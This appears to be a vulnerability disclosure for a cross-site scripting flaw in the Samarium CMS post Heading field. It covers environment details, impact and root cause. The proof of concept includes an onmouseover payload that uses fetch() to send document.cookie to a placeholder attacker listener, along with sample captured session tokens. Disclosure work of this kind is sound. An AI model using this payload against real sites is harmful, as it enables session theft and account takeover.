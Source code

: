 # Reflected Cross-Site Scripting (XSS) — cookie exfiltration / arbitrary JS execution

When visiting http://localhost:8000/cms/post and creating a new post using the Heading field, it is possible to insert unsanitized XSS payloads. For example, by adding an element with an onmouseover attribute we were able to demonstrate both reflected XSS and exfiltration of the user's session cookie.

GitHub: https://github.com/oitcode/samarium

## Environment / access:
- Docker image: samarium-app
- DB: samarium_db (MySQL)
- Test URL: http://localhost:8000
- Version / commit: v0.9.6 (please see attached composer.lock / commit hash if available)
  
## POC (brief):
1. Start a listener on an attacker host:
   python3 -m http.server 4444

2. Create a post (Heading) containing:
   <a onmouseover="fetch('http://<YOUR-IP>:4444/?pwned='+document.cookie)">ON MOUSE OVER</a>
<img width="1717" height="595" alt="Image" src="https://github.com/user-attachments/assets/c1c62305-2c55-4b60-9a28-ba04aedee087" />

3. Visit the post page and hover the injected element — the listener receives:
   GET /?pwned=XSRF-TOKEN=...; samarium_erp_session=... HTTP/1.1
<img width="962" height="299" alt="Image" src="https://github.com/user-attachments/assets/6dbda46d-64cc-4d9e-8db7-90573dabafe5" />

and when you hover the mouse over the text on the screen "On Mouse Over" we receive the session cookie

<img width="962" height="299" alt="Image" src="https://github.com/user-attachments/assets/01596a9a-43b1-4818-a6bf-e9f3f49976dd" />


## Impact

High — an attacker can execute arbitrary JavaScript in the context of any user who views the crafted content or visits a crafted URL.

Possible consequences include theft of session cookies and CSRF tokens, account takeover, performing actions on behalf of the victim, and lateral social‑engineering attacks.

Risk is increased if cookies are not set with HttpOnly, Secure and suitable SameSite attributes.

## Technical details

The Heading field accepts HTML and attributes without adequate sanitization or output encoding.

Inline event attributes such as onmouseover are not filtered or removed, allowing code execution when the event is triggered.

This behavior leads to both stored and reflected XSS scenarios depending on how content is shared or linked.
